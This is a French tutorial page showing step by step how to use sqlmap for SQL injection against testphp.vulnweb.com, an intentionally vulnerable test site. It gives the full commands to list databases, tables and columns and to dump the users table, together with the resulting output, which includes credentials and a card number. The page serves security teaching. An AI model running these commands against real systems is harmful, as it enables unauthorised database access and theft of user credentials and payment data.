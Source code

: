 # SQLMAP

On va ici tenter de pénétrer un [site web ](http://testphp.vulnweb.com/)\(prévu à cet effet\) pour tester des attaques par injections SQL. Notamment avec l'utilisation du logiciel SQLMAP.

## Présentation du site

![preview du site](../.gitbook/assets/capture-de-cran-2021-08-13-a-20.40.45.png)

C'est un site qui regroupe des artistes par catégorie, avec des descriptions par artistes etc. et il est sensible aux injections SQL.

On peut vérifier cette sensibilité en ajoutant un guillemet simple à la fin de l'url, car il retourne une erreur sql.

## À l'aide de SQLMAP

#### 1. On commence par taper la commande suivante pour lister toutes les databases utilisées à cette url \(on prend ici une url depuis la page d'un artiste\) :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs 
```

Vous devriez avoir à la fin du processus, quelque chose comme ça :

```bash
[21:23:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:23:03] [INFO] fetching database names
available databases [2]:

[*] acuart
[*] information_schema
```

On remarque ainsi la présence de 2 databases pour cette url.



#### 2. À partir de la, on peut récupérer le nom des tables des databases que l'on souhaite, par exemple ici la database acuart, avec la commande :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --tables -D acuart
```

Vous obtiendrai à la fin de ce processus, le nom des tables de la database acuart :

```text
[21:28:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:28:51] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+
```



#### 3. Notre but étant de pouvoir obtenir les informations des utilisateurs, on va s'intéresser à la table users, et afficher ses attributs :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --columns -D acuart -T users
```

Vous obtiendrai finalement le descriptif des attributs de la tables users, de la database acuart :

```text
[21:34:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:34:10] [INFO] fetching columns for table 'users' in database 'acuart'
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+
```



#### 4. Maintenant, il ne nous reste plus qu'à afficher les données de la table :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dump -D acuart -T users
```

Résultat :

```text
Database: acuart
Table: users
[1 entry]
+---------------------+----------------------------------+--------------------------------------------------+------+-----------------+---------+-------+-----------+
| cc                  | cart                             | name                                             | pass | email           | phone   | uname | address   |
+---------------------+----------------------------------+--------------------------------------------------+------+-----------------+---------+-------+-----------+
| 1234-5678-2300-9000 | 5d85445a2a1e07611dfd51f20ef36758 | 1}"acxzzzzzzzzbbbccccdddeeexca".replace("z","o") | test | email@email.com | 2323345 | test  | 21 street |
+---------------------+----------------------------------+--------------------------------------------------+------+-----------------+---------+-------+-----------+
```

On peut donc voir que la table users contient un utilisateur dont l'identifiant et le mot de passe sont 'test'.




